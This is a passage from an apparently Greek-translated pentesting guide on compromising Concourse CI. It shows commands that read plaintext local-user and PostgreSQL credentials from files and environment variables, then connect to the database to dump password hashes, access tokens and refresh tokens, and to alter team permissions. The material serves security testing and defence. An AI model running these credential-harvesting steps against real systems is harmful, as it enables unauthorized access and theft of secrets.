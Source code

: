 ```bash
# Reads the output
cat /output
```
#### Escaping to the node from the Web container

Ακόμα και αν το web container έχει κάποιες άμυνες απενεργοποιημένες, **δεν τρέχει ως κοινό προνομιακό container** (για παράδειγμα, **δεν μπορείτε** να **mount** και οι **ικανότητες** είναι πολύ **περιορισμένες**, οπότε όλοι οι εύκολοι τρόποι για να ξεφύγετε από το container είναι άχρηστοι).

Ωστόσο, αποθηκεύει **τοπικά διαπιστευτήρια σε καθαρό κείμενο**:
```bash
cat /concourse-auth/local-users
test:test

env | grep -i local_user
CONCOURSE_MAIN_TEAM_LOCAL_USER=test
CONCOURSE_ADD_LOCAL_USER=test:test
```
Μπορείτε να χρησιμοποιήσετε αυτά τα διαπιστευτήρια για να **συνδεθείτε στον διακομιστή ιστού** και **να δημιουργήσετε ένα προνομιακό κοντέινερ και να διαφύγετε στον κόμβο**.

Στο περιβάλλον μπορείτε επίσης να βρείτε πληροφορίες για **να αποκτήσετε πρόσβαση στην περίπτωση postgresql** που χρησιμοποιεί το concourse (διεύθυνση, **όνομα χρήστη**, **κωδικός πρόσβασης** και βάση δεδομένων μεταξύ άλλων πληροφοριών):
```bash
env | grep -i postg
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_ADDR=10.107.191.238
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_PORT=5432
CONCOURSE_RELEASE_POSTGRESQL_SERVICE_PORT_TCP_POSTGRESQL=5432
CONCOURSE_POSTGRES_USER=concourse
CONCOURSE_POSTGRES_DATABASE=concourse
CONCOURSE_POSTGRES_PASSWORD=concourse
[...]

# Access the postgresql db
psql -h 10.107.191.238 -U concourse -d concourse
select * from password; #Find hashed passwords
select * from access_tokens;
select * from auth_code;
select * from client;
select * from refresh_token;
select * from teams; #Change the permissions of the users in the teams
select * from users;
```
#### Κατάχρηση Υπηρεσίας Garden - Όχι μια πραγματική Επίθεση

{% hint style="warning" %}
Αυτές είναι απλώς μερικές ενδιαφέρουσες σημειώσεις σχετικά με την υπηρεσία, αλλά επειδή ακούει μόνο σε localhost, αυτές οι σημειώσεις δεν θα έχουν καμία επίδραση που δεν έχουμε ήδη εκμεταλλευτεί πριν.
{% endhint %}
